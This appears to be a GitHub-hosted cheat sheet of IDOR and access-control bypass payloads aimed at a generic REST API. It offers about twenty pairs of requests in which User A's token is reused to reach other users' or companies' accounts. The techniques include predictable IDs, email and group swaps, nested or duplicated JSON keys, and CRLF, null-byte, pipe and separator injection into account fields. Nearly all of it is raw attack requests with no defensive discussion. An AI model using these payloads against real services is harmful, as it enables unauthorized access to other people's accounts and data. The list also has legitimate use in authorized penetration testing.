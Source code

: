 **Predictable ID**
```bash
GET /api/v1/account/**2222** 
Token: UserA_token

GET /api/v1/account/**3333** 
Token: UserA_token
```

**ID combo**
```bash
GET /api/v1/**UserA**/data/2222 
Token: UserA_token

GET /api/v1/**UserB**/data/3333 
Token: UserA_token
```

**Integer as ID**
```bash
POST /api/v1/account/ 
Token: UserA_token 
{"Account": 2222 }


POST /api/v1/account/ 
Token: UserA_token 
{"Account": [3333]}
```

**Email as user ID**
```bash
POST /api/v1/user/account 
Token: UserA_token 
{"email": " UserA@email.com"}


POST /api/v1/user/account 
Token: UserA_token 
{"email": " UserB@email.com"}
```

**Group ID**
```bash
GET /api/v1/group/CompanyA 
Token: UserA_token

GET /api/v1/group/CompanyB
Token: UserA_token
```

**Group and user combo**
```bash
POST /api/v1/group/CompanyA 
Token: UserA_token 
{"email": " userA@CompanyA .com"}

POST /api/v1/group/CompanyB 
Token: UserA_token 
{"email": " userB@CompanyB .com"}
```

**Nested object**
```bash
POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222 }

POST /api/v1/user/checking 
Token: UserA_token 
{"Account": {"Account" :3333}}
```

**Multiple objects**
```bash
POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222 }

POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222, "Account": 3333, "Account": 5555 }
```

**Predictable token**
```bash
POST /api/v1/user/account 
Token: UserA_token 
{"data": "DflK1df7jSdfa1acaa"}

POST /api/v1/user/account
Token: UserA_token 
{"data": "DflK1df7jSdfa2dfaa"}
```

10-method
```bash
POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222 }

POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222%0d%0a1111 }
```

11-method
```bash
POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222 }

POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222%0a1111 }
```

12-method
```bash
POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222 }

POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222%0d1111 }
```

13-method
```bash
POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222 }

POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222%001111 }
```

14-method
```bash
POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222 }

POST /api/v1/user/checking 
Token: UserA_token 
{"Account": [2222,1111] }
```


15-method
```bash
POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222 }

POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222;1111 }
```


16-method
```bash
POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222 }

POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222,1111 }
```

17-method
```bash
POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222 }

POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222|1111 }
```

18-method
```bash
POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222 }

POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222%0a%0dcc:1111 }
```

19-method
```bash
POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222 }

POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222&1111 }
```

20-method
```bash
POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222 }

POST /api/v1/user/checking 
Token: UserA_token 
{"Account": 2222#%1111 }
```
